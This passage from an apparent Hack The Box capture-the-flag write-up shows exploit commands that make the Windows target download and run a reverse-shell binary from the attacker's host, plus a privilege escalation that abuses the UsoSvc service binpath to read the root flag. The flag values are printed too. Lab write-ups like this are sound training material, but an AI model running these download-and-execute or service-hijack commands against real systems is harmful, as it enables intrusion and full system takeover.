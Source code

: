 ```
$ python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a '-NoProfile -Command wget http://10.10.15.222:8080/reverse.exe -OutFile C:/Users/Public/cyfun.exe'
$ python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a '-NoProfile -Command C:/Users/Public/cyfun.exe'

PS C:\windows\system32\inetsrv> gc C:/Users/Public/user.txt
8eb35aa443795d5f4f306c100344e0d7
```

## Privilege Escalation of Machine 

Some enumeration tools show exploitable services like `UsoSvc` so I found an
article explaining the attack:
[CVE-2019-1405 and CVE-2019-1322 - Elevation to SYSTEM via the UPnP Device Host Service and the Update Orchestrator Service](https://www.nccgroup.com/uk/about-us/newsroom-and-events/blogs/2019/november/cve-2019-1405-and-cve-2019-1322-elevation-to-system-via-the-upnp-device-host-service-and-the-update-orchestrator-service/).

```
sc config UsoSvc binpath= "cmd.exe /c copy C:\\Users\\Administrator\\Desktop\\root.txt C:\\windows\\system32\\cyfun.txt &"
sc config UsoSvc binpath= "cmd.exe /c copy del C:\\windows\\system32\\cyfun.txt &"
C:\windows\system32\inetsrv>type C:\windows\system32\cyfun.txt
9421fa1e9e59dd1a93d10a7efd87b5c2

sc config UsoSvc binpath= "cmd.exe /c del C:\\windows\\system32\\cyfun.txt &"
```

[nmap]:https://nmap.org/
[CrackStation]:https://inventory.raw.pm/tools.html#CrackStation
[msf]:https://www.metasploit.com/
